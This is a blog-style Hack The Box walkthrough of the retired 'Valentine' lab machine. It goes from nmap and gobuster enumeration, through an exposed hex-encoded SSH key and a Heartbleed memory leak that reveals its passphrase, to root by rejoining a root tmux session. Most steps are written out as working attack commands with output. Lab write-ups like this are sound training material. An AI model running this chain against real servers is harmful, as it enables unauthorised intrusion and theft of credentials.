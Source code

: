 ```yaml
---
layout: post
title: "Valentine"
categories: HTB-Walkthrough
---
```



![valentine](/assets/img/valentine/valentine1.png)


Valentine is another OSCP-like box from the HTB 'retired' archive.

As always, we start with nmap.

<h3>Nmap</h3>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.79 |tee -a val.txt`

```

Nmap scan report for 10.10.10.79
Host is up (0.12s latency).
Not shown: 34526 filtered ports, 31006 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



<hr width="250" size="6">


Checking out the website on port80 we are greeted with a picture.

![omg-pic](/assets/img/valentine/valentine-pic.png)

The source tells us its called 'omg.jpg', I download it, just incase there's some steganography at play here.
It's quite likely that the picture is just a hint at 'heartbleed', a well known https vulnerability, which may come into play on the port443.
Before rushing to that port, its worth enumerating the directories here with `gobuster`.

```
gobuster dir -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh
```

Interesting results:

```

/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)

```

The /dev page is a directory with some interesting contents.

![dev](/assets/img/valentine/valentine-dev.png)


The 'notes' link takes us to a todo list.

![notes](/assets/img/valentine/valentine-notes.png)

It mentions the decode and encode pages, found by gobuster.

The other page 'hype_key' looks like its hex encoded.

I use wget to pick up the key...

`wget http://10.10.10.79/dev/hype_key`

We can decode it with the `xxd` command.

```
cat hype_key | xxd -r -p
```


Using an online hex to text converter we find that its a private rsa key.

![hextotext](/assets/img/valentine/valentine-hextotext.png)


<hr width="250" size="6">


The https port, besides the expected alerts about insecure certificates, takes us again to omg.jpg.

```
gobuster dir -u https://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh -k
```


<h3>Heartbleed</h3>


I found a simple [heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py) exploit on github that works well....

It may need to be executed a number of times, until you see something interesting.

`python heartbleed.py 10.10.10.79 -v`


```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==......].......7....~
```

Then we can decode it.

```
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" |base64 -d
heartbleedbelievethehype
```

It looks like its the password for the id_rsa we've picked up.


<hr width="250" size="6">

Remember to do `chmod 600 id_rsa` to set the correct permissions on the private key file.

I tried `ssh -i id_rsa root@10.10.10.79` but it didn't work, 
It took a bit of thought before I tried the username `hype`

```
ssh -i id_rsa hype@10.10.10.79
```

The password `heartbleedbelievethehype` worked, and I got user-shell.


<hr width="250" size="6">


Looking at the bash history is fruitful, you should always do `ls -la` in the home folder, and if
.bash_history is not redirected to `2>/dev/null` then it may be worth checking early.

![bash-history](/assets/img/valentine/valentine-bash-history.png)


Checking the running processes, we can see that there's a `tmux` session still running.

```
hype@Valentine:~$ ps aux |grep tmux
root       1024  0.0  0.1  26416  1672 ?        Ss   02:21   0:03 /usr/bin/tmux -S /.devs/dev_sess
hype       5769  0.0  0.0  13576   920 pts/0    S+   05:23   0:00 grep --color=auto tmux
```


We can simply rejoin this session and get root privileges.

```
/usr/bin/tmux -S /.devs/dev_sess
```

Easy to get flags...

```
root@Valentine:/home/hype# cat Desktop/user.txt
e6xxxxxxxxxxxxxxxxxxxxxxxxxxxx50
root@Valentine:/home/hype# cat /root/root.txt
f1xxxxxxxxxxxxxxxxxxxxxxxxxxxxb2
root@Valentine:/home/hype# 
```

Quick roots are always amazing, demonstrating a catastrophic error, misconfiguration and whatnot.

'Leave 'em wanting more!' is a good ethos.

Thanks for the fun box.

:)






